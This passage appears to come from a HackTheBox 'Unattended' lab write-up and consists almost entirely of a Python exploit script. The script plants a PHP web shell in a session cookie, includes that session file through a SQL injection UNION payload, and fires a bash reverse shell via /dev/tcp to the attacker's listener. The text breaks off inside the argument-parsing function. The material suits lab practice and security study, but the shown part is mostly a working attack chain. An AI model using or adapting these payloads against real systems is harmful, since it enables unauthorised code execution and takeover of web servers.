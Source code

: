 ![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-24-HackTheBox-Unattended/2021-09-24-HackTheBox-Unattended%2011:03:49.png)

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto Reverse Shell - www-data - Unattended HackTheBox

import argparse
import requests
import sys
import socket, telnetlib
from threading import Thread
import urllib.parse
import urllib3

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()
urllib3.disable_warnings()

'''Here come the Functions'''
# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()
    
# Exploit
def getReverse(rhost,lhost,lport):
    url = "https://%s/index.php?" %rhost
    # Get to get the phpsessid
    r.get(url, verify=False, proxies=proxies)
    php_value = r.cookies['PHPSESSID']
    # Setting the php malicious to the browser and the phpsseid in the correct order to trigger the execution
    my_super_cookie = requests.cookies.create_cookie('0x4rt3mis',"<%3fphp+system($_GET['cmd'])%3b+%3f>")
    r.cookies.set_cookie(my_super_cookie)
    print("[+] Now Let's get the reverse shell! [+]")
    payload = {
    'cmd': "bash -c 'bash -i >& /dev/tcp/%s/%s 0>&1'" %(lhost,lport),
    'id': "25' and 1=2 UNION select '0x4rt3mis\\' union select \\'/var/lib/php/sessions/sess_%s\\'-- -'-- -" %php_value
}
    payload_str = urllib.parse.urlencode(payload, safe="\'\>/")
    r.get(url, params=payload_str, proxies=proxies, cookies=r.cookies, verify=False)
    # Just got the reverse shell with two get, only one did not work (don't know why, haha)
    r.get(url, params=payload_str, proxies=proxies, cookies=r.cookies, verify=False)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-ip', '--ip', help='Local IP Reverse Shell', required=True)
    parser.add_argument('-p', '--port', help='Local Port Reverse Shell', required=True)
    args = parser.parse_args()
    
```